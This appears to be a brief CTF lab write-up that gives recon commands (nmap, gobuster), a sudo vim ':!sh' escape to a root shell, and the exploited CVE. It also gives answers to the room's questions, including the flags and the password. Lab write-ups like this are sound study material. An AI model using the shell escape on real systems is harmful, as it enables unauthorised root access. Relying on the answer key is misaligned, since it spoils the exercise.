 # Easy CTF

## Meta

### IP

```
export IP=10.10.171.156
```

### Check open ports

```
nmap -sC -sV -oN nmap/initial.txt $IP

[+] 21 FTP
[+] 80 Apache httpd 2.4.18
[+] 2222 ssh
```

### Check hidden direcotries

```
gobuster dir --word-list /usr/share/wordlist/dirbuster/
```

### Find other user

```
ls /home

mitch sunbath
```

### Leverage to spawn a priviliged shell

[x] check kernel version
[x] check OS version
[x] Files with SUID bit set
[x] Sudo rights

Helpful scripts are LinPeas or LinEnum.sh

```
sudo -l

/usr/bin/vim
```

```
sudo vim test
:!sh - restart shell. Use root priv.
```
## Questions

### How many services are running under port 1000?
```
2
```
### How many services are running under port 1000?
```
ssh
```

### What's the CVE you're using against the application? 
```
CVE-2019-9053
```
### To what kind of vulnerability is the application vulnerable?
```
sqli
```
### What's the password?
```
secret
```
### Where can you login with the details obtained?
```
ssh
```
### What's the user flag?
```
G00d j0b, keep up!
```
### Is there any other user in the home directory? What's its name?
```
ls /home
sunbath
```
### What can you leverage to spawn a privileged shell?
```
sudo -l

vim

:!sh
```
### What's the root flag?
```
W3ll d0n3. You made it!
```